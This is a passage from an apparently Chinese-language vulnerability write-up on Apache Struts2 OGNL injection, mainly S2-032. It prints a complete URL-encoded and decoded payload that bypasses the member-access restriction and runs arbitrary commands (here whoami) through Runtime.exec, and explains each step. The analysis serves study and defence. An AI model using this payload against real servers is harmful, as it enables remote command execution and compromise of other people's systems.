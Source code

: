 > 把payload 进行url解码后会发现基本上和S2-001的payload基本一样.

> payload首先把以id为参数构造一个字符串数组,然后以这个字符串数组为参数构造了一个ProcessBuilder对象,然后设置ProcessBuilder对象的redirectErrorStream属性为true,然后调用start方法新建一个进程执行id这个命令.然后的一系列操作就是执行的结果给回显.调用ProcessBuilder类对象的getInputStream()来获取上一步新进程的输入流.以变量b为参数新建一个InputStreamReader对象用来把字节流转换为字符流,然后以变量c为参数新建一个BufferedReader对象在字符输入流中读取文本,缓冲各个字符,从而实现字符、数组和行的高效读取.然后创建了一个长度为50000的数组,再以e为参数调用BufferedReader对象的read方法,把读取的字符串放到e这个数组内.之后在上下文环境获取一个com.opensymphony.xwork2.dispatcher.HttpServletResponse类对象,这个类用于处理response.然后以变量e为参数新建了一个字符串对象,然后调用HttpServletResponse对象的.getWriter().println方法输出这个字符串对象到缓冲区.最后调用getWriter().flush()把缓冲区的数据输出,于是就能看到了命令回显内容,并调用getWriter().close()方法来关闭这个缓冲区.

## S2-032

```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=whoami
```

url解码后:

```java
?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#res=@org.apache.struts2.ServletActionContext@getResponse(),#res.setCharacterEncoding(#parameters.encoding[0]),#w=#res.getWriter(),#s=new java.util.Scanner(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()).useDelimiter(#parameters.pp[0]),#str=#s.hasNext()?#s.next():#parameters.ppp[0],#w.print(#str),#w.close(),1?#xx:#request.toString&pp=\\A&ppp= &encoding=UTF-8&cmd=whoami
```

> Struts2 2.3.14.2 版本之后allowStaticMethodAccess设置成final,就不能再像之前的payload直接更改allowStaticMethodAccess属性的值了.可通过DefaultMemberAccess替换SecurityMemberAccess来覆盖_memberAccess进行绕过.这样ognl计算时的规则就替换成了DefaultMemberAccess中的规则,也就没有了黑名单的限制以及静态方法的限制.这里获取类的静态属性通过ognl.OgnlRuntime#getStaticField获得,而该方法中没有调用isAccessible方法,故通过@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS来获取DefaultMemberAccess实例,赋值给上下文环境中的 _memberAccess.在程序运行时在setOgnlUtil方法中将黑名单等数据赋给SecurityMemberAccess,而这就是创建_memberAccess的过程.这两个对象的id甚至都是一样的,而SecurityAccess这个对象的父类本身就是ognl.DefaultMemberAccess,而其建立关系的过程就相当于继承父类并重写父类的过程.所以这里我们利用其父类DefaultMemberAccess覆盖_memberAccess中的内容,就相当于初始化了_memberAccess,这样就可以绕过其之前所设置的黑名单以及限制条件.

> 这一次的payload没有直接写成@java.lang.Runtime@getRuntime().exec('whoami')的形式,而写成了@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D)的形式,是因为在于使用method:的时候Struts2会创建一个ActionProxy来执行method后面的内容,当我们把内容放到StrutsActionProxy类的构造函数中去创建代理对象的时候会对我们传进来的表达式做一次编码,导致最后进入ognl.getValue中的表达式变成了@java.lang.Runtime@getRuntime().exec(\'whoami\'),从而导致了ognl表达式的报错.由于request中所有的参数都会放在context中,所以可以通过#parameters.参数名[0]的方式获取要执行的命令.

> payload中有,1?#xx:#request.toString这个奇怪的字符串,是因为在DefaultActionInvocation类中传给ognl.getValue之前,代码会给我们传过来的表达式后面加一个括号,所以需要payload写成,1的形式只是为了去构成一个形如1()的函数形式来防止ognl表达式报错.

> payload首先重写了_memberAccess,然后调用org.apache.struts2.ServletActionContext类的getResponse方法来获取一个response对象.根据传入的参数encoding=UTF-8来设置response对象的编码,然后调用response对象的getWriter()方法来获取一个JspWriter对象w,JspWriter相当于一个带缓存功能的printWriter,它不是直接将数据输出到页面,而是将数据刷新到response的缓冲区后再输出.之后以传入的参数cmd的值为参数调用java.lang.Runtime类的getRuntime().exec执行命令,并获取执行命令的字节流.然后以执行命令结果的字节流为参数新建一个java.util.Scanner类的对象,用来获取输入.由于Scanner对象将首先跳过输入流开头的所有空白分隔符,然后对输入流中的信息进行检查,直到遇到空白分隔符为止.所以为了获取完整的执行结果,需要重新设置输出字符串的分隔符,所以以传入的pp参数的值为参数调用Scanner对象的useDelimiter方法来指定输出字符串的分隔符.接下来是一个三元表达式,如果s.hasNext()有输入则把对象的s输入赋值给str,否则把传入参数ppp的值赋值给s,如果存在漏洞的话是把对象的s输入赋值给str.然后调用对象w的print输出str的值,然后关闭对象w.
